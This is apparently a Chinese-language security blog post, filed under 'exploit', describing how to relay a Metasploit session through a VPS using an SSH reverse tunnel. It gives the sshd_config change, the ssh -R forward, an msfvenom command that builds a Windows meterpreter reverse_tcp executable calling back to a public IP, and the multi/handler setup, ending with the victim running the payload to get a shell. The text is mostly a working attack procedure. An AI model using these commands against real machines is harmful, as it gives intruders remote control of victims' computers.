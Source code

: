 ```yaml
---
layout:     post
title:      通过 VPS SSH Tunnel 实现内网穿透
author:     wooy0ung
tags: 		dos
category:  	exploit
---
```



>内网 IP 一般是动态变化的, 直接以内网 IP 的点对点通讯不利于维持控制。
>因此, 必须有一个公网 IP 作为跳板(这里用VPS), 当 Victim 反向连接 VPS时, 进行端口转发, 将
所有流量通过 SSH Tunnel 发送到 Attacker 的机器。  
![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x00.png)
<!-- more -->


### 0x00 config & open SSH Tunnel

在 /etc/ssh/sshd_config 文件末尾添加

```
GatewayPorts yes
```

打开ssh隧道

```
$ ssh -N -R 9000:192.168.1.116:9000 root@VPS_IP
```


### 0x01 make payload & exploit

生成 x86 Windows payload

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=188.166.209.119 LPORT=9000 -f exe > run.exe
```

start msf

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.116
msf exploit(handler) > set lport 9000
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

测试 ssh Tunnel 是否畅通

```
$ tcping VPS_IP 9000
```

msf弹出提示信息, 端口转发正常

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x01.png)

在 Victim's Machine 上执行 payload, getshell~

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x02.png)